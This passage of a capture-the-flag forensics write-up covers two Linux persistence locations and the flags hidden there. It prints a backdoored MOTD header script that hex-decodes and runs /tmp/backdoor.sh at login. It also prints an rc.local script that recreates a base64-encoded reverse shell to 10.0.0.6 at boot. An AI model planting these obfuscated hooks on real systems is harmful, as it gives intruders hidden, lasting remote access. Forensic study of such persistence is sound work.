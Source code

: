 ### Flag 4

Another persistence method was 'Message of the Day backdooring' located in `/etc/update-motd.d/` being another common location for persistence. In the directory, a file called `00-header` had the 4th flag encoded in hex `L3ak{5h311_0f_7h3_D4y}`

```
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
	# Fall back to using the very slow lsb_release utility
	DISTRIB_DESCRIPTION=$(lsb_release -s -d)
fi

printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

echo '2f746d702f6261636b646f6f722e73682026' | xxd -r -p | bash
# echo '4c33616b7b35683331315f30665f3768335f4434797d0a' | xxd -r -p
```

### Flag 5

Reading the blogs, the `/etc/rc.local` was another potential location for persistence. Analyzing the file, it seems to be running a bash script that creates the `backdoor.sh` reverse shell. One of the script comments show the 5th flag encoded in base64 as `L3ak{rc_l0c4l_0n_b00t}`.

```
#!/bin/bash

ENCODED_ArcaneGate_PATH="L3RtcC9iYWNrZG9vci5zaA=="
ArcaneGate_PATH=$(echo "$ENCODED_ArcaneGate_PATH" | base64 --decode)
ArcaneGate_BASE64='IyEvYmluL2Jhc2gKL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMC42LzEyMzQgMD4mMQo='

# Check if the ArcaneGate script exists, if not, recreate it from the Base64 string
if [ ! -f "$ArcaneGate_PATH" ]; then
    echo "ArcaneGate script not found, recreating..."
    echo "$ArcaneGate_BASE64" | base64 --decode > "$ArcaneGate_PATH"
    chmod +x "$ArcaneGate_PATH"
fi

# The Specter that Steers Your Spirit
## In the shadowed alcoves of ancient libraries where the whispers of the past linger like morning fog,
```